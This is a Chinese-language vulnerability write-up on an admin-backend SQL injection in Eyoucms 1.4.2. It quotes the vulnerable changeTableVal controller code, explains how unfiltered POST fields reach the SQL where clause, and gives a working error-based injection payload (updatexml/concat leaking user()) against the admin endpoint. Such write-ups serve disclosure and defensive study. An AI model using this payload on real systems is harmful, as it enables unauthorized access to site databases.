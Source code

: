 ```yaml
---
title: "Eyoucms 1.42 后台注入"
id: zhfly2924
---
```


# Eyoucms 1.4.2 后台注入

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 漏洞分析

/application/admin/controller/Index.php

```
public function changeTableVal()
{
    if (IS_AJAX_POST) {
        $url = null;
        $data = [
            'refresh'   => 0,
        ];
        $table = input('post.table/s'); // 表名
        $id_name = input('post.id_name/s'); // 表主键id名
        $id_value = input('post.id_value/s'); // 表主键id值
        $field  = input('post.field/s'); // 修改哪个字段
        $value  = input('post.value/s', '', null); // 修改字段值  
        switch ($table) {
            // 会员等级表
            case 'users_level':
                {
                    $return = model('UsersLevel')->isRequired($id_name,$id_value,$field,$value);
                    if (is_array($return)) {
                        $this->error($return['msg']);
                    }
                }
                break;

```
 // 会员属性表
        case 'users_parameter':
            {
                $return = model('UsersParameter')-&gt;isRequired($id_name,$id_value,$field,$value);
                if (is_array($return)) {
                    $this-&gt;error($return['msg']);
                }
            }
            break;

        // 会员中心菜单表
        case 'users_menu':
            {
                Db::name('users_menu')-&gt;where('id','gt',0)-&gt;update([
                        'is_userpage'   =&gt; 0,
                        'update_time'   =&gt; getTime(),
                    ]);
                $data['refresh'] = 1;
            }
            break;

        // 会员投稿功能
        case 'archives':
            {
                if ('arcrank' == $field) {
                    if (0 == $value) {
                        $value = -1;
                    }else{
                        $value = 0;
                    }
                }
            }
            break;
        // 会员产品类型表
        case 'users_type_manage':
            {
                if (empty($value)) {
                    $this-&gt;error('不可为空');
                }
            }
            break;
        default:
            # code...
            break;
    }
    $savedata = [
        $field =&gt; $value,
        'update_time'   =&gt; getTime(),
    ];
    M($table)-&gt;where("$id_name = $id_value")-&gt;cache(true,null,$table)-&gt;save($savedata); // 根据条件保存修改的数据
    // 以下代码可以考虑去掉，与行为里的清除缓存重复 AppEndBehavior.php / clearHtmlCache
    switch ($table) {
        case 'auth_modular':
            extra_cache('admin_auth_modular_list_logic', null);
            extra_cache('admin_all_menu', null);
            break;

        default:
            // 清除logic逻辑定义的缓存
            extra_cache('admin_'.$table.'_list_logic', null);
            // 清除一下缓存
            // delFile(RUNTIME_PATH.'html'); // 先清除缓存, 否则不好预览
            \think\Cache::clear($table);
            break;
    }
    /*清除页面缓存*/
    // $htmlCacheLogic = new \app\common\logic\HtmlCacheLogic;
    // $htmlCacheLogic-&gt;clear_archives();
    /*--end*/

    $this-&gt;success('更新成功', $url, $data);
} 
``` `}` 
```

第307行：

```
M($table)->where("$id_name = $id_value")->cache(true,null,$table)->save($savedata); // 根据条件保存修改的数据 
```

直接将函数头获取的POST传入SQL语句里面：

```
$table = input('post.table/s'); // 表名
$id_name = input('post.id_name/s'); // 表主键id名
$id_value = input('post.id_value/s'); // 表主键id值
$field  = input('post.field/s'); // 修改哪个字段
$value  = input('post.value/s', '', null); // 修改字段值 
```

### 漏洞复现

payload：

```
http://0-sec.org/eyou/?m=admin&c=Index&a=changeTableVal

post: `table=admin&id_name=admin_id&id_value=‘1’//and//updatexml(1,concat(0x7e,user(),0x7e),1)` 
```

![image](../img/8b8c6a3067e090557ad544f7e21fb4d1.png)

## 四、参考链接

> http://www.f4ckweb.top/index.php/archives/47/